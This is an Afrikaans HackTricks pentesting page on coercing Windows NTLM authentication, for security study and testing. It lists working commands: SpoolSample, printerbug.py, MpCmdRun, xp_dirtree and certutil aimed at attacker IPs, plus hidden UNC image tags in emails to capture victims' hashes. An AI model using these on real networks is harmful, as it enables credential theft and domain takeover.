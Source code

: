 # Dwang NTLM Bevoorregte Verifikasie

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Werk jy in 'n **cybersecurity-maatskappy**? Wil jy jou **maatskappy adverteer in HackTricks**? Of wil jy toegang hê tot die **nuutste weergawe van die PEASS of laai HackTricks in PDF af**? Kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Sluit aan by die** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** my op **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die [hacktricks repo](https://github.com/carlospolop/hacktricks) en [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) is 'n **versameling** van **afgeleë verifikasie-aanwysers** wat in C# geskryf is met behulp van die MIDL-kompilator om 3rd party-afhanklikhede te vermy.

## Spooler-diensmisbruik

As die _**Print Spooler**_-diens **geaktiveer** is, kan jy van sommige reeds bekende AD-verifikasie-inligting gebruik maak om die drukkerserver van die domeinbeheerder te versoek om 'n opdatering oor nuwe drukwerk te stuur en net sê dat dit die kennisgewing na 'n sekere stelsel moet **stuur**.\
Let daarop dat wanneer die drukker die kennisgewing na 'n willekeurige stelsel stuur, dit teen daardie **stelsel** geverifieer moet word. Daarom kan 'n aanvaller die _**Print Spooler**_-diens dwing om teen 'n willekeurige stelsel te verifieer, en die diens sal die rekenaarrekening in hierdie verifikasie **gebruik**.

### Vind Windows-bedieners op die domein

Gebruik PowerShell om 'n lys van Windows-bokse te kry. Bedieners het gewoonlik voorrang, so laat ons daarop fokus:
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### Opsoek na Spooler-diens wat luister

Gebruik 'n effens aangepaste @mysmartlogin se (Vincent Le Toux se) [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket), kyk of die Spooler-diens luister:
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
Jy kan ook rpcdump.py op Linux gebruik en soek na die MS-RPRN-protokol.
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### Vra die diens om teen 'n willekeurige gasheer te verifieer

Jy kan [**SpoolSample hier vandaan**](https://github.com/NotMedic/NetNTLMtoSilverTicket) kompileer.
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
of gebruik [**3xocyte se dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket) of [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) as jy op Linux is
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### Kombinasie met Onbeperkte Delegasie

As 'n aanvaller reeds 'n rekenaar met [Onbeperkte Delegasie](unconstrained-delegation.md) gekompromitteer het, kan die aanvaller die drukker laat outentiseer teen hierdie rekenaar. As gevolg van die onbeperkte delegasie sal die **TGT** van die **rekenaarrekening van die drukker** in die **geheue** van die rekenaar met onbeperkte delegasie **gestoor word**. Aangesien die aanvaller reeds hierdie gasheer gekompromitteer het, sal hy in staat wees om hierdie kaartjie te **herwin** en dit te misbruik ([Pass the Ticket](pass-the-ticket.md)).

## RCP Kragtige outentisering

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

Die `PrivExchange`-aanval is die gevolg van 'n fout wat gevind is in die **Exchange-bediener se `PushSubscription`-funksie**. Hierdie funksie maak dit moontlik dat die Exchange-bediener deur enige domein-gebruiker met 'n posbus gedwing kan word om te outentiseer na enige kliëntverskafte gasheer oor HTTP.

Standaard loop die **Exchange-diens as SYSTEM** en word oormatige bevoegdhede gegee (spesifiek, dit het **WriteDacl-bevoegdhede op die domein voor 2019 Kumulatiewe Opdatering**). Hierdie fout kan uitgebuit word om die **oorplasing van inligting na LDAP moontlik te maak en gevolglik die domein NTDS-databasis te onttrek**. In gevalle waar oorplasing na LDAP nie moontlik is nie, kan hierdie fout steeds gebruik word om na ander gasheer binne die domein te oorplas en outentiseer. Die suksesvolle uitbuiting van hierdie aanval verleen onmiddellike toegang tot die Domeinadministrateur met enige geoutentiseerde domein-gebruikersrekening.

## Binne Windows

As jy reeds binne die Windows-rekenaar is, kan jy Windows dwing om met bevoorregte rekeninge na 'n bediener te verbind met:

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL

MSSQL is 'n relationele databasisbestuurstelsel wat ontwikkel is deur Microsoft. Dit word algemeen gebruik vir die stoor en bestuur van data in toepassings en webwerwe. MSSQL bied 'n kragtige en veilige omgewing vir die hantering van groot hoeveelhede data. Dit ondersteun ook gevorderde funksies soos transaksies, aanvraagverwerking en databasisbeveiliging.
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
Of gebruik hierdie ander tegniek: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

Dit is moontlik om certutil.exe lolbin (Microsoft-ondertekende binêre lêer) te gebruik om NTLM-verifikasie af te dwing:
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## HTML-inspuiting

### Via e-pos

As jy die **e-posadres** van die gebruiker ken wat in 'n masjien wil inbreek, kan jy hom net 'n **e-pos met 'n 1x1-beeld** stuur, soos
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
en wanneer hy dit oopmaak, sal hy probeer om te verifieer.

### MitM

As jy 'n MitM-aanval kan uitvoer op 'n rekenaar en HTML in 'n bladsy kan inspuit wat hy sal sien, kan jy probeer om 'n prent soos die volgende in die bladsy in te spuit:
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## Kraking NTLMv1

As jy [NTLMv1 uitdagings kan vasvang, lees hier hoe om dit te kraak](../ntlm/#ntlmv1-attack).\
_Onthou dat jy Responder-uitdaging moet instel op "1122334455667788" om NTLMv1 te kraak._

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Werk jy in 'n **cybersecurity-maatskappy**? Wil jy jou **maatskappy geadverteer sien in HackTricks**? Of wil jy toegang hê tot die **nuutste weergawe van die PEASS of HackTricks aflaai in PDF-formaat**? Kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Sluit aan by die** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** my op **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacktruuks deur PR's in te dien by die [hacktricks repo](https://github.com/carlospolop/hacktricks) en [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
